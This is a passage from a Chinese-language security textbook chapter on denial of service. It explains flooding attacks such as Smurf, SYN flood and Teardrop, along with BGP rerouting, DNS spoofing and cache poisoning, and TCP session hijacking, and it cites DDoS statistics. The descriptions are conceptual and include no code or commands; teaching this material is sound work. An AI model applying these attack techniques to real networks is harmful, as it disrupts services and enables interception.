最常见的恶意拒绝服务攻击类型是洪水攻击。压倒受害者似乎需要巨大的资源。然而，利用网络协议和工具中的弱点即可产生拒绝服务；事实上，一台计算机上的几行代码就能瘫痪一个看似更强大的网络实体。本节将探讨洪水攻击是如何组装的。

##### 资源不足

在教师与六岁儿童的例子中，教师根本无法应对所有学生的需求：一个个来或许可以，但同时到来则不行。一名教师对付两三个学生或许能应付，十名教师对三十名学生也行，但一对三十则不行。计算系统同理，攻击者可试图消耗关键稀缺资源的临界量。

洪水攻击受害者基本上是一种非复杂攻击，尽管实施洪水攻击的手段可能变得复杂。另一种拒绝服务方式是阻断对资源的访问，我们接下来讨论。

###### 容量不足

如果攻击者的带宽大于受害者，攻击者可利用这种不对称性压垮受害者。受害者始终可能面临资源更多的攻击者。资源不足的例子包括网络连接表中的槽位、缓冲区空间或处理器周期。

---

> **洪水攻击之所以发生，是因为入站带宽不足，或资源——硬件设备、计算能力、软件或表容量——不足。**

---

拒绝服务在网络攻击中尤为明显，攻击者可消耗过多可用网络带宽。接下来我们探讨网络容量耗尽。

###### 由恶意代码引起的网络洪水

最原始的拒绝服务攻击是连接洪水。如果攻击者发送的数据量达到你通信系统的处理上限，你就无法接收其他数据。即使偶尔有其他人的数据包到达，与你的通信也会严重退化。具有讽刺意味的是，`TCP` 协议的健壮性加剧了此问题：若因拥塞导致数据包 1 和 2 延迟但数据包 3 先到达，协议处理程序会注意到 1 和 2 缺失。接收方接受并保留数据包 3，但发送方可能重传数据包 1 和 2，这加剧了拥塞。

更复杂的攻击利用或滥用互联网协议要素。除了 `TCP` 和 `UDP`，还有一类称为 `ICMP`（互联网控制消息协议）的协议。这些协议通常用于系统诊断，没有关联的用户应用程序。`ICMP` 协议包括：

*   **`ping`**：请求目标返回应答，旨在显示目标系统可达且运行正常

*   **`echo`**：请求目标返回发送给它的数据，旨在显示连接链路可靠（`ping` 实际上是 `echo` 的一个版本）

*   **`destination unreachable`**：指示无法访问目标地址

*   **`source quench`**：意味着目标趋于饱和，源端应暂停发送数据包一段时间

###### 网络协议攻击

这些协议在网络管理中有重要用途。但它们也可能被用来攻击系统。协议在网络协议栈内处理，因此在接收主机上可能难以检测或阻止这些攻击。但协议或其实现中的特性或疏忽可能为攻击者打开方便之门，利用弱点淹没支持协议功能的代码。我们将探讨这些协议如何被用来攻击受害者。并强调数据包是未经认证的：攻击者可以使用 `ping` 或 `echo` 数据包使网络饱和，就像管理员使用它们来管理网络性能一样容易。

#### 死亡之 Ping

**死亡之 Ping** 是一种简单的攻击，使用通常用于测试主机响应时间的 `ping` 命令。由于 `ping` 要求接收方响应数据包，攻击者只需向预期受害者发送大量 ping 包即可。攻击受限于攻击路径上最小的带宽，如图 6-18 所示。如果攻击者位于 10 兆字节（MB）连接上，而到受害者的路径为 100 MB 或更多，从数学上讲，攻击者单独无法淹没受害者。但如果数字反过来，攻击就会成功：位于 100-MB 连接上的攻击者肯定可以淹没 10-MB 的受害者。Ping 数据包将耗尽受害者的带宽。


**图 6-18** Ping 攻击。(a) 攻击者拥有更大带宽。(b) 受害者拥有更大带宽

##### Smurf

**Smurf** 攻击是 ping 攻击的一种变体。它使用相同的载体——`ping` 数据包，但有两个额外的花招。首先，攻击者选择一个不知情的受害者网络，使其成为帮凶。攻击者伪造 `ping` 数据包中的源地址，使其看起来来自受害者，这意味着接收方将响应给受害者。然后，攻击者将地址的最后一个字节设置为全 1，以广播模式将此请求发送到网络；广播模式数据包将分发给子网上的所有主机。攻击如图 6-19 所示，展示了单个广播攻击被反射回目标受害者。通过这种方式，攻击者利用整个子网来放大攻击效果。


**图 6-19** Smurf 攻击

###### Echo–Chargen

**Echo–Chargen** 攻击发生在两台主机之间。`Chargen` 是一种生成数据包流以测试网络容量的 `ICMP` 协议。`Echo` 是另一种用于测试的 `ICMP` 协议；接收 `echo` 的主机会将接收到的所有内容返回给发送者。

攻击者选择两个受害者 A 和 B，然后在主机 A 上设置一个 `chargen` 进程，生成目标为主机 B 的 `echo` 数据包。因此，A 用 `echo` 数据包淹没 B。但因为这些数据包要求接收者将它们回显给发送者，主机 B 通过将它们返回给主机 A 进行回复。如图 6-20 所示，这一系列使 A 和 B 的网络基础设施陷入无限循环，就像网球比赛一样，A 生成一串回显，B 忠实地将它们返回给 A。或者，攻击者可以使 B 成为第一个数据包的源地址和目的地址，这样 B 就会陷入循环，不断创建并回复自己的消息。


**图 6-20** Echo–Chargen 攻击

###### SYN Flood

另一种流行的拒绝服务攻击是 **SYN Flood**。这种攻击利用 `TCP` 协议套件，使这些协议面向会话的特性对受害者不利。

对于 `Telnet` 或 `SMTP` 等协议，协议对等体建立一个称为会话的虚拟连接，以同步交互中来回的命令-响应性质。会话通过三次 `TCP` 握手建立。每个 `TCP` 数据包都有标志位，其中一个表示为 `SYN`（同步），另一个表示为 `ACK`（确认）。首先，为了发起 `TCP` 连接，发起方发送一个设置了 `SYN` 位的数据包。其次，如果接收方准备好建立连接，它将回复一个同时设置了 `SYN` 和 `ACK` 位的数据包。最后，第一一方通过发送一个设置了 `ACK` 位的数据包完成交换，以证明通信通道清晰完整，如图 6-21 所示。


**图 6-21** 三次 TCP 握手

数据包在传输过程中偶尔会丢失或损坏。目的地（我们称之为接收方）维护一个称为 `SYN_RECV` 连接的队列，跟踪那些已发送 `SYN-ACK` 但尚未收到相应 `ACK` 的项目。通常，这些连接会在短时间内完成。如果 `SYN-ACK` (2) 或 `ACK` (3) 数据包丢失，最终目的地主机将使不完整的连接超时并将其从等待队列中丢弃。


# 攻击者可以通过发送许多 `SYN` 请求来拒绝为目标提供服务

攻击者可以通过发送许多 `SYN` 请求来拒绝为目标提供服务，目标会正确地用 `SYN-ACK` 进行响应；然而，攻击者从不回复 `ACK` 以完成连接，从而填满受害者的 `SYN_RECV` 队列。通常，`SYN_RECV` 队列相当小，只能容纳 10 或 20 个条目。由于互联网中潜在的路由延迟，`SYN_RECV` 队列的典型保持时间可能长达几分钟。因此，攻击者只需每隔几秒发送一个新的 `SYN` 请求，队列就会填满。

使用这种方法的攻击者通常还会做一件事：他们在初始 `SYN` 数据包中伪造一个不存在的返回地址。为什么？有两个原因。首先，攻击者不想泄露真实源地址，以防有人检查 `SYN_RECV` 队列中的数据包试图识别攻击者。其次，攻击者希望使恶意 `SYN` 数据包与建立真实连接的合法 `SYN` 数据包无法区分。为每个数据包选择不同的（伪造的）源地址使它们变得唯一，就像普通流量一样。发送到不存在地址的 `SYN-ACK` 数据包会导致 ICMP 目标不可达响应，但这不是 TCP 连接所等待的 `ACK`。（TCP 和 ICMP 是不同的协议套件，所以 ICMP 回复不一定能回到发送方的 TCP 处理程序。）

这些攻击滥用网络协议的合法特性来淹没受害者，但这些特性无法被禁用，因为它们在协议套件中具有必要的用途。然而，淹没网络容量并不是拒绝服务的唯一方式。在下一节中，我们将探讨耗尽其他可用资源的攻击。

## 通过资源耗尽进行网络泛洪

计算机通过在应用程序之间划分时间来支持多个应用程序；操作系统研究帮助人们设计了有效的算法，以决定将多少（什么比例的）处理时间分配给哪个应用程序。从一个应用程序切换到另一个应用程序，称为**上下文切换**，需要时间和内存，因为当前应用程序的状态被保存，下一个应用程序的先前状态被重新加载。寄存器值必须写入内存，未完成的异步活动必须被完成、丢弃或记录，并且内存必须被保留或释放。如果活动进程很少且上下文切换很少，每次切换的开销可以忽略不计，但随着活动进程数量的增加，用于上下文切换的时间比例也会增长，这意味着实际计算的时间比例减少。进程过多时，系统可能进入一种称为**抖动**的状态，由于几乎持续不断的上下文切换，其性能失效。

耗尽的资源不仅仅是时间。突发的大量传入消息可能会淹没传入电子邮件的缓冲区。大量必须处理的错误或故障状况可能会淹没日志记录和日志文件。用于重组分片通信的缓冲区也可能耗尽。

即使是识别和身份验证，在耗尽攻击中也可能变得脆弱。为了防止自动猜测攻击，某些身份验证服务在发生一定次数（如三次或五次）登录失败后，会暂时或永久禁用账户访问。因此，恶意用户可以通过反复以受害者身份登录失败来阻断访问。

### IP 分片：Teardrop 攻击

**Teardrop** 攻击滥用了一个初衷是为了改善网络通信的功能。网络 IP 数据报是一个可变长度的对象。为了支持不同的应用程序和条件，数据报协议允许将单个数据单元分片，即分成多个片段并单独传输。每个片段指示其在数据单元中的长度和相对位置。接收端将这些片段重组为单个数据单元。

如图 6-22 所示，在 Teardrop 攻击中，攻击者发送一系列无法正确拼合的数据报。一个数据报可能声称其位于位置 0，长度为 60 字节；另一个位于位置 30，长度 90 字节；还有一个位于位置 41，长度 173 字节。这三个片段相互重叠，因此无法正确重组。在极端情况下，操作系统会因这些无法重组的部分数据单元而死锁，从而导致拒绝服务。


**图 6-22** Teardrop 攻击

导致拒绝服务的另一个原因基于网络路由：如果路由表不再指向某个站点，该站点实际上就变得不可达。我们接下来将描述路由攻击。

#### 由寻址故障导致的拒绝服务

正如我们之前所述，攻击者拒绝服务的另一种方式是通过物理或逻辑手段阻止访问。在本节中，我们将探讨阻止数据到达受害者的方法。可以看出，任何能够切断、中断或使系统容量过载的人都可以实施拒绝服务。物理威胁相当明显，将在本章后面描述。我们将重点考虑几种可能导致拒绝服务的电子攻击。在本节中，我们将探讨服务被有意或无意拒绝的方式。

错误路由是一种一举两得的攻击。假设您邻居的家庭住址是“Main Street 217 号”，但您取下了她房子上的门牌号，并将“217”挂在了您自己的房子上。那么，寄给邻居的所有邮件都会被投递到您的家里，而邻居一封也收不到。您将处于理想位置，可以检查（甚至打开）邻居本应收到的所有东西，同时阻断所有投递给邻居的邮件。这种地址变更将助长拦截和拒绝服务。网络地址也会发生类似情况，我们将在下文描述。

##### DNS 欺骗

互联网寻址的核心是一种称为 **DNS** 或 **域名系统** 协议的协议。DNS 是互联网名称到地址转换的数据库，DNS 协议将名称解析为地址。为了提高效率，DNS 服务器会构建最近使用的域名缓存；在一种称为 DNS 投毒的攻击中，攻击者试图将不准确的条目插入该缓存，以便将未来的请求重定向到攻击者选定的地址。

标准的 DNS 查询和响应如图 6-23 所示，用户请求转换 URL `microsoft.com`，名称服务器响应地址 `207.46.197.32`。


**图 6-23** 将域名解析为地址

DNS 服务实现在远程服务器上，因此中间人攻击涉及攻击者在真正的 DNS 服务器响应之前拦截查询并进行回复。这种情况称为 **DNS 欺骗**，如图 6-24 所示。在该示例中，攻击者迅速响应地址 `7.0.1.1`（推测是攻击者控制的地址）。有了这个变化，攻击者可以介入用户与 `www.microsoft.com` 的通信中间，将攻击者想要的任何内容转发给真正的 Microsoft 网站。用户的浏览器会忽略随后到达的来自 DNS 服务器的正确响应，因为浏览器已经接受了来自攻击者的虚假地址。


**图 6-24** 涉及 DNS 欺骗的地址解析

> **任何服务器都可以响应 DNS 查找请求；最先响应者胜出。抢在最前面可以让攻击者重定向流量。**

#### 重新路由

一种中间人攻击的示例涉及一个节点重定向网络，使所有流量都流经攻击节点，从而导致潜在的拦截。网络路由器是一个松散的、相互信任的组件联盟，它们安排通过网络（包括互联网）传递所有数据。针对路由器的中间人解释有点复杂，因此我们提供了一个强调“中间”角色的简化版本；有关此现象的更完整描述，请参阅 Hepner 等人的文献 [HEP09]。

每个路由器向其他路由器发送消息，列出它有路径可达的地址；其他路由器随后添加它们的路径，并将扩展后的列表转发给其他路由器。通过这种方式，所有路由器都能了解其他路由器的连接情况。在图 6-25 中，四个路由器控制四个子网：A 控制 `10.0.0.0` 子网；B 控制 `20.0.0.0` 子网，以此类推。A 与 B 相邻，B 与 C 相邻，T 是另一个不与其他三个相邻的路由器。A 向其邻居通告它距离 `10.0.0.0` 子网中的任何机器的距离为 1。


**图 6-25** 路由器通告其子网

因为 B 刚刚得知路由器 A 距离 `10.0.0.0` 子网仅为 1，所以 B 向其邻居 A 和 C 通告它距离自己的子网为 1，距离 `10.0.0.0` 子网为 2，如图 6-26 所示。当然，A 不在乎它可以通过 B 到达 `10.0.0.0` 地址；那将是一个无意义的环路，但它确实记录了 B 是通往 `20.0.0.0` 地址的最近路径。


**图 6-26** 路由器通告其自己的子网和其邻居的子网

图 6-27 展示了 C 如何获取刚从 B 学到的信息并将其广播给与其相邻的其他路由器。通过这种方式，路由器在整个网络中通告其能力。随着时间的推移，路由器共享详细描述完整网络拓扑的信息。每个路由器维护一个目的地和下一步的表，因此如果 C 有发往 `10.0.0.0` 子网络的数据，其表将指示它应将该数据流转发给 B。


**图 6-27** 路由器传播路由信息

在图 6-28 中，我们通过添加更多路由器使场景变得稍微复杂一些；为简单起见，我们不显示它们的子网络。这些路由器将全部通告其连接性，从中可以确定任意两点之间的最短路径。请注意，A 与 T 相当隔离；其最短路径是 B-N-P-Q-T。


**图 6-28** 更复杂的路由器连接图

##### 路由器攻击与流量重定向

###### 路由器隐式信任

路由器基于隐式信任运行；路由器报告的内容被认为是真实的。然而，路由器有时会发生故障，或者其管理员会输入不准确的数据，因此路由表可能因非恶意（和恶意）原因而损坏。在我们的示例中，如果路由器 A 宣称它距离 `90.0.0.0` 子网的距离为 1，则发往该子网的大部分流量将被路由到 A，因为该距离优于除 T 本身之外的任何路径。如果 A 接收到该流量，它可以轻松拦截并修改发往该网络的任何流量，因此网络中的恶意路由器可以通过这种方式发起中间人攻击。

> **路由器彼此隐式信任。**

###### 路由器接管网络

在 2008 年 Defcon 大会上，大多数与会者不知道两名研究人员已将会议的无线网络通过他们的设备重新路由。研究人员 Pilosov 和 Kapela [[PIL08]](#bib01.html#bib_495) 描述并演示了他们的攻击。尽管该攻击比我们在此展示的更详细，但它扩展了刚才描述的方法。其他论文（如 [[HEP09]](#bib01.html#bib_265)、[[KUH07]](#bib01.html#bib_351) 和 [[BEL89]](#bib01.html#bib_54)）讨论了类似的漏洞。

路由器通过 BGP（边界网关）协议通告可用路径，该协议很复杂，因此针对它的攻击很复杂但绝对可行。必须正确捕获并使用诸如时序和序列号之类的细节，以便 BGP 更新被网络的其余部分识别并接受。此外，针对该协议的攻击取决于设备位于子网的“边缘”，即直接连接到两个不同的子网。虽然攻击者可以声称位于本地子网的边缘（例如，酒店或实验室中的无线网络），但要冒充位于较大子网的边缘（例如，直接连接到互联网的 ISP）则更难。然而，成功的攻击者可以重定向、读取、复制、修改或删除受攻击网络的所有流量。

###### 源路由与地址欺骗

互联网流量通常通过最佳可用路由传输；即每个路由器确定将数据单元导向的最佳下一条路径（称为**下一跳**）。然而，发送方可以使用称为**源路由**的过程，指定数据单元传输经过的部分或所有中间点。使用**严格源路由**时，从源到目的地的完整路径被指定；使用**松散源路由**时，指定某些（部分或全部）必需的中间点。

源路由的一个用途是通过强制流量遵循工程师可追踪的特定路径来测试或排查路由器故障。源路由更恶意的用途是强制数据流经恶意路由器或网络链路。显然，向数据流添加源路由允许中间人强制流量流经其路由器。由于其潜在的滥用性，许多互联网路由器阻止松散源路由。

##### 流量重定向

正如我们之前所见，在网络层，路由器是一种设备，它在源主机网络和目标网络之间的中间网络中转发流量。因此，如果攻击者能破坏路由，流量就会消失。

路由器使用复杂的算法来决定如何路由流量。无论算法如何，它们本质上都在寻找最佳路径（其中“最佳”通过距离、时间、成本、质量等某种组合来衡量）。路由器仅知晓与其共享直接网络连接的路由器，并使用网关协议共享有关其能力的信息。每个路由器向其邻居通告它到达其他网络地址的能力。这一特性允许攻击者破坏网络。

要了解如何做到这一点，请记住，尽管路由器很复杂，但它只是一台具有两个或更多网络接口的计算机。假设一个路由器向其邻居通告它拥有到达整个网络中每个其他地址的最佳路径。很快，所有路由器都会将所有流量导向那一个路由器。该路由器可能会被淹没，或者可能直接丢弃大部分流量。无论哪种情况，大量流量永远无法到达预期目的地。

正如我们之前提到的，路由器相互信任以提供准确数据。偶尔，由于非恶意损坏，路由器会发送错误数据，但这些零星故障影响局部，并因网络可靠性而随时间自我修复。然而，故意误导的路由器（或恶意冒充路由器的设备）因隐式信任而持续存在。正如您所知，排除冒充者的标准对策是识别和认证。但为了效率，路由器通信协议在设计时未包含认证。只有现在才向路由器协议添加认证步骤。

##### DNS 攻击

我们最后的拒绝服务攻击实际上是一类基于域名服务器概念的攻击。域名服务器查询其他名称服务器以解析它不知道的域名。为了效率，它缓存接收到的答案，以便将来能更快地转换该名称。DNS 服务器映射的地址可保留数周或数月。

###### 名称服务器应用软件缺陷

在最常见的 Unix 实现中，名称服务器运行称为 Berkeley Internet Name Domain（BIND）或 `named`（“name daemon”的简写）的软件。BIND 曾有许多缺陷，包括一个现在熟悉的缓冲区溢出。通过接管名称服务器或导致其缓存虚假条目，攻击者可以重定向任何流量的路由，这对拒绝服务有明显的影响。

###### 顶级域攻击

通过地址解析失败拒绝服务的另一种方式是使互联网的 DNS 系统本身瘫痪。2002 年 10 月，大量流量淹没了互联网的顶级域 DNS 服务器，这些服务器构成了互联网寻址结构的基础。全球有 13 台顶级域服务器；这些服务器转换顶级（即网络地址的最后一部分）：URL 的 `.com`、`.edu`、`.fr`、`.uk`、`.org` 或 `.biz` 部分。在 2002 年的攻击中，大约一半的洪水流量来自仅 200 个地址。尽管有些人认为问题是一组配置错误的防火墙，但没有人确切知道攻击的原因，甚至不确定它是攻击还是异常事件。

2007 年再次发生类似事件。2007 年 2 月 6 日，DNS 根名称服务器遭受了两次大规模拒绝服务攻击，总共持续六小时。这显然是一次攻击，至少部分源自亚太地区 [[ICA07]](#bib01.html#bib_286)。在这种情况下，攻击的影响显著降低，因为在 2002 年和 2007 年之间，互联网开始对根名称服务器使用新设计。称为 anycast 的技术允许查找功能分布在许多计算机上，甚至数百台。因此，对单个 DNS 服务器甚至少量服务器的攻击影响很小。

2005 年 3 月的一次攻击利用 Symantec 防火墙中的缺陷，允许更改 Windows 机器上使用的 DNS 记录。然而，此次攻击的目的不是拒绝服务。在此次攻击中，被毒化的 DNS 缓存将用户重定向到广告站点，这些站点每次用户访问时都从客户那里获得收入。尽管如此，该攻击也阻止用户访问合法站点。

这些攻击试图通过限制系统解析地址的能力来拒绝服务。由于地址解析在互联网中是分布式的，这些攻击往往更有效地导致局部拒绝服务，而对大片网段的效果较差。

拒绝服务攻击通常是二级攻击。首先，攻击者将攻击代码植入目标系统；然后，在代码就位后，攻击者触发该代码以实施拒绝服务攻击。接下来我们将探讨攻击者如何渗透目标系统，以便从中发起拒绝服务攻击。

### 会话劫持

在**会话劫持**攻击中，攻击者允许双方开始交互，但随后转移通信，这很像中间人攻击。例如，设想登录到一个金融网站，完成身份验证，然后会话被攻击者接管。金融网站通常通过加密得到良好保护，但其他网站可能脆弱，例如那些传输医疗记录或支持师生互动的网站。

会话劫持得益于 TCP/IP 协议设计的某些要素。首先，考虑 IP 协议头部，如图 6-29 所示。关键部分是第 12-19 字节，包含源和目的 IP 地址。目的地址的用途显而易见；源地址是必要的，以便接收方能生成响应消息发回给发送方。在从源到目的的旅程中的任何一点，攻击者都可以更改该源地址，从而将响应重定向给攻击者，而非原始发送方。


**图 6-29** IP 头部

> **在会话劫持中，攻击者通过重写源和目的地址，实际上窃取了一个已建立的 TCP 连接。**

现在考虑 TCP 协议头部，如图 6-30 所示。整个 TCP 数据包包含在图 6-29 的 IP 数据报中；因此图 6-29 的全部内容都包含在图 6-30 的数据字段（第 20 字节及以后）中。


**图 6-30** TCP 头部

如果数据包乱序到达，协议处理程序使用 TCP 序列号和确认号，即图 6-30 中的第 4-11 字节，来重构数据项。TCP 协议在设计时考虑到了不稳定的网络，因此它包含识别和纠正错误的功能，不仅针对消息数据的损坏，也针对这些头部中显示的控制数据的损坏。

发送方创建并发送数据包 1，然后是 2、3，依此类推，接收方在收到数据包时返回带有确认号的数据包，如图 6-31 所示。我们通过仅从客户端视角展示排序，略微简化了解释。客户端发送其当前缓冲区指针，服务器确认该相同指针。（对于完整协议，双方各自确认对方的最后一个指针，并发送其当前指针，该指针已核算最新收到的数据。）如果客户端发送一个带有错误的序列号和确认号对的数据包，这将破坏同步，接收方将丢弃数据包，直到收到一个与前一个确认号匹配的数据包。如果它们不重新同步，则会终止并重新建立会话。因此该协议具有自愈性，因为一旦两端重新同步，它们就能确定最后一次成功的交换，并从该点开始重传。


**图 6-31** 正常 TCP 交换

攻击者可以利用这种纠正机制，插入一个与接收方保持同步但破坏与真实发送方同步的数据包。攻击者和接收方现在重新同步，并继续原始发送方开始的交换。通过这种方式，如图 6-32 所示，攻击者悄无声息地滑入会话，取代了原始发送方的位置。这个插入的数据包是一个由中间人精心构造的重放包。该攻击由 Robert Morris, Sr. 发现 [MOR85]，并由 Steven Bellovin 扩展 [BEL89]。


**图 6-32** TCP 劫持


同时，如图 6-33 所示，攻击者向原始发送方发送一个 `RST`（复位）命令，使发送方相信接收方已关闭原始连接。发送方可能尝试与接收方打开一个新连接，却不知攻击者正在继续之前的会话。取决于当时运行的应用程序，攻击者可以接受发送方作为新用户（可能要求用户重新认证），或因连接重复而拒绝该用户。


**图 6-33** 复位原始发送方

因此，通过会话劫持攻击，攻击者可以在两个原始参与方都不明显的情况下滑入正在进行的通信流中；通信在攻击者替代原始发送方的情况下继续，而该发送方被阻止。由于瞬间连接丢失由许多良性原因引起，用户倾向于不怀疑这是攻击；会话通常由网络协议处理程序在用户不知情的情况下重新建立。

攻击者简单地融入通信流中，从原始发送方手中接管交互。攻击之所以成功，是因为攻击者能看到并操纵 TCP 和 IP 头部，但当然这些头部必须在整个网络中可见，因为它们是实现流量投递的基础。然而，我们在下一节将展示一种防范劫持的方法，既通过在应用层隐藏连接数据，又通过隐藏头部数据。

### DNS 缓存投毒

**DNS 缓存投毒**攻击是一种颠覆寻址的方式，导致 DNS 服务器将客户端重定向到指定地址。一种概念上简单的 DNS 投毒攻击是向 DNS 注册机构伪造一条消息，请求将特定域名从一个地址更改为另一个地址。当网站从一个托管提供商迁移到另一个，或组织更改其地址结构时，此类请求正常发生。然而，恶意攻击者可以利用 DNS 更改请求，将发往特定域名的流量重定向。由于强认证要求，注册机构很少落入此类伪造陷阱。

一种更可能的攻击是利用所有互联网名称服务器协调其地址转换的 DNS 协议消息。Dan Kaminsky [KAM08] 扩展了一些先前已知的方法来投毒 DNS 缓存。DNS 协议很复杂，但你不需要了解细节就能理解这种攻击。

需要域名对应地址的客户端向其本地 DNS 名称服务器发送查询。如果该服务器没有答案，它会将查询转发给根名称服务器；查询被转发给更具体的名称服务器，直到有一个服务器以权威方式回复地址。该地址通过解析查询涉及的服务器链传播，最终返回给客户端。沿途的服务器缓存响应，以便它们可以直接响应针对同一地址的未来查询。

Kaminsky 发现了这一过程中的缺陷：即这些查询会保持开放状态直到获得回答，且与查询 ID 编号匹配的响应会被缓存。如果攻击者能够猜测查询 ID 编号的序列，攻击者就可以伪造一个满足开放查询 ID 的响应；该伪造的回复可以提供任意地址作为响应。在该响应从缓存中移除之前，针对所请求地址的所有流量都将被定向到伪造回复中给出的地址。因此，通过正确预测序列号并向特定名称服务器生成网络流量，攻击者可以悄无声息地将流量重定向到选定的地址。

---

**在缓存投毒攻击中，一个不正确的名称到地址的 DNS 转换被放入转换缓存并保留在那里。**

---

此例展示了可预测序列号的脆弱性。针对此类攻击的对策是使用不可预测的序列号系列，最好从大范围的可能性中选取。

多年来，互联网管理机构一直在致力于实施针对此类重放和劫持攻击的防护措施。这一目标通过 **DNSSEC**（DNS 安全扩展，RFC 4033 [ARE05]）得以实现。2010 年 6 月，第一台根 DNS 服务器被分配了一个用于签署 DNS 记录的私钥；其他根服务器也将被分配密钥。根级别的每条 DNS 记录都将被签署并发布，连同根管理员的公钥，一起发布在 DNS 本身中。随着根名称服务器记录被签署，其他名称服务器将逐步获取公钥并签署其记录。最终，客户端的地址请求也将意味着获取并检查名称解析路径上所有记录的签名。

### 利用已知漏洞

攻击者拥有大量工具来发起攻击。黑客工具通常从已知漏洞入手，有时是早已有补丁可用的著名漏洞；人们习惯于不给旧系统或远程位置的系统打补丁。由于漏洞公开与首次被利用之间的时间间隔，未打补丁的系统正成为一个严重问题。Symantec [SYM10] 报告称，2009 年，对于微软在 Internet Explorer 中修补的 28 个漏洞，披露与利用之间的平均窗口期不到一天；漏洞公开后平均两天就会出现利用代码。补丁发布之日至漏洞首次被利用之日的窗口期确实非常短。此外，2009 年 Symantec 识别出了 12 个零日漏洞利用。**零日漏洞利用** 是指在漏洞公开之前就发生利用，因此在补丁可用之前就已被利用的漏洞。

一些工具，如 `R-U-Dead-Yet` 和 `EvilGrade`，会检查多种漏洞。特洛伊木马、病毒和其他类型的恶意软件可形成拒绝服务攻击的基础。一种流行但特别有效的攻击工具包是 `Zeus`，成本不到 700 美元，但在黑客地下世界也免费流通。安全公司 Symantec 已记录了超过 90,000 种 `Zeus` 变体 [SYM10]。在这些工具中，拒绝服务有时是副产品；该工具利用最终导致系统崩溃的漏洞，从而拒绝服务，或至少干扰服务。正如我们在本章后面所述，利用漏洞通常是攻击者夺取计算机控制权的第一步，被控计算机随后会被征召进攻击者的“僵尸网络”。

### 物理断连

最后，我们来看看导致拒绝服务的最后一个原因：物理故障。网络由设备、连接器和传输媒介组成，其中任何一项都可能发生故障。一根断裂的电缆、故障的电路板、或故障的交换机或路由器，造成的拒绝服务危害不亚于黑客攻击。正如攻击者在毫无预警且往往无明显原因的情况下发动攻击一样，硬件故障也是意料之外的。

#### 传输故障

通信失败的原因有很多。例如，线路被切断。或网络噪声导致数据包无法识别或无法投递。传输路径上的某台机器因硬件或软件原因发生故障。设备为维修或测试而退出服务。设备饱和，在清除过载前拒绝接收传入数据。其中许多问题在包括互联网在内的主要网络中是暂时的或会自动修复（绕过）。

然而，一些故障无法轻易修复。通往您计算机的单条通信线路发生断裂（例如，从网络到您的网络接口卡，或电话线到您的调制解调器），只能通过建立替代链路或修复受损线路来解决。网络管理员会说“网络其余部分的服务未受影响”，但这对您来说毫无安慰作用。

#### 组件故障

组件（例如路由器、电路板、防火墙、监控设备、存储设备和交换机）会因不明原因发生故障。老化、出厂缺陷、电源浪涌、过热和人为破坏都会影响硬件。网络往往是一个脆弱的组件链，所有组件都是维持网络运行所必需的。在最坏的情况下，任何单个组件的故障都会导致整个网络瘫痪。在 Sidebar 6-18 中，我们描述了一两块电路板的故障如何影响弗吉尼亚州。

硬件故障几乎总是自然发生的。虽然人为诱导的硬件损坏不常见，但并非不可能。例如，前文 Sidebar 6-7 中描述的 `Stuxnet` 蠕虫可使机械设备过度运转直至故障。

我们探讨了可称为个体拒绝服务攻击的行为，即使单个主机瘫痪或拒绝为单个地址或网段提供服务。这种情况对受影响的主机或地址而言是令人遗憾的。虽然这种危害会使普通用户丧失能力，但大型装置（如企业或主要政府机构）却无动于衷，因为它们拥有巨大的容量和弹性。然而，研究这些攻击更严重的原因在于，它们可作为可重复的组件用于规模大得多的攻击中，而这类攻击能够并确实严重影响主要用户。在下一节中，我们将研究这些分布式拒绝服务攻击。

---

**拒绝服务攻击将一名对手与一个目标对立起来；资源充足的目标通常能比装备较差的攻击者坚持更久。**

---

## 6.5 分布式拒绝服务

我们刚才描述的拒绝服务攻击本身就很强大，而侧边栏 6-19 表明此类攻击大量存在。但攻击者可以构建一种两阶段攻击，使效果成倍增加。这种乘数效应赋予了分布式拒绝服务强大的威力。

---

**分布式拒绝服务攻击通过在攻击方汇聚多方力量，改变了攻击者与受害者之间的力量对比。**

---

### 侧边栏 6-19 拒绝服务：十年巨变

拒绝服务活动有多少？与大多数计算机安全事件一样，可靠、有代表性的统计数据很难获得，因为没有中央数据收集机构，抽样方法各异导致难以比较数值，且没人知道结果所描述的总体范围。然而，2000 年代初和 2010 年代的一些拒绝服务研究结果确实显示出了不可否认的变化。

加州大学圣地亚哥分校（UCSD）的研究人员研究了互联网上的拒绝服务活动量 [UCS01]。由于许多 DoS 攻击使用虚构的返回地址，研究人员断言，发往不存在地址的流量表明了拒绝服务攻击的数量。他们在 2001 年监控了互联网上一大段未使用的地址空间，为期三周。他们的发现：

- 三周内针对 5,000 多个目标发起了 12,000 多次攻击。
- SYN 洪水攻击显然占了一半以上的攻击。
- 一半的攻击持续时间不到十分钟，90% 的攻击持续时间不到一小时。

吉布森研究公司（GRC）的 Steve Gibson 在 2001 年中经历了多次拒绝服务攻击。他为取证目的收集了数据 [GIB01]。第一次攻击持续了 17 小时，此时他设法重新配置了连接互联网的路由器以阻止攻击。在这 17 小时内，他发现有 474 台基于 Windows 的 PC 攻击了他的网站。后来的一次攻击持续了 6.5 小时后自行停止。这些攻击后来被发现是由威斯康星州基诺沙的一名 13 岁少年发起的。

到本世纪末，情况发生了显著变化。

网络公司 Arbor Networks 专门提供网络安全产品，协助 ISP 维护其网络骨干的安全。由于与 ISP 的业务往来，他们处于可以测量大量拒绝服务流量的位置。在一份涵盖 2009 年的分析中，他们统计了超过 350,000 次拒绝服务攻击，即每 90 秒发生一次攻击，其中超过 20,000 次攻击流量超过了 1 Gbps（千兆比特每秒），这是针对受攻击目标的流量大小的度量。许多组织的互联网连接链路最多只能处理 1 Gbps，因此超过 1 Gbps 的攻击不仅会淹没网站，还会淹没目标的整个组织，并开始回溯淹没 ISP 的网络基础设施。作为比较，目前的住宅 DSL 服务峰值约为 3 兆比特（1/1000 千兆比特）每秒，住宅用户的有线调制解调器通常不超过 30 Mbps。2010 年 [ARB10]，到 2014 年，2009 年处于高端的 10 Gbps 攻击已显微不足道；33% 的 DDoS 攻击超过 20 Gbps，且在 2014 年 2 月，他们记录到了一次惊人的 180 Gbps 攻击。网络层面的流量并非 DDoS 攻击严重程度增长的唯一衡量标准。同一报告描述了网站每分钟遭受 600 万到 800 万次请求的攻击，极少有网站能做好应对准备。

2012 年底，美国摩根大通、SunTrust、富国银行和 PNC 银行遭遇了持续数天的 DDoS 攻击，金融机构和新闻媒体网站成为攻击目标。

拒绝服务攻击也开始针对特定的网络活动。经典的拒绝服务攻击试图耗尽链路的全部带宽，但近期的攻击针对防火墙、DNS 服务器、VoIP 服务基础设施、负载均衡器等。因为这些服务涉及计算，它们速度较慢，比简单的带宽耗尽攻击更容易被较小流量的攻击压垮。
